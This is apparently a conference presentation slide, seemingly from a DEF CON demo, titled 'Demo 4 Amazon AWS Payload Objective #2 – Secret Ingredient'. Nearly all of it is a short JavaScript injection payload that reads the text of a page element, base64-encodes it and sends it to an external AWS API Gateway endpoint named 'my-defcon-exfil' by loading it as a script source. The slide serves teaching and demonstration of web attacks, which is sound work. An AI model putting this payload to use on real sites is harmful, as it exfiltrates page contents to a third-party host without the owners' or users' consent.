

# Demo 4 Amazon AWS Payload Objective #2 – Secret Ingredient
s=document.createElement("script");
s.src="https://f7aq2nmst6.execute-api.eu-west-1.amazonaws.com/testing/my-defcon-exfil?data="+
btoa(document.getElementById("secret-ingredient").innerText);

document.head.appendChild(s);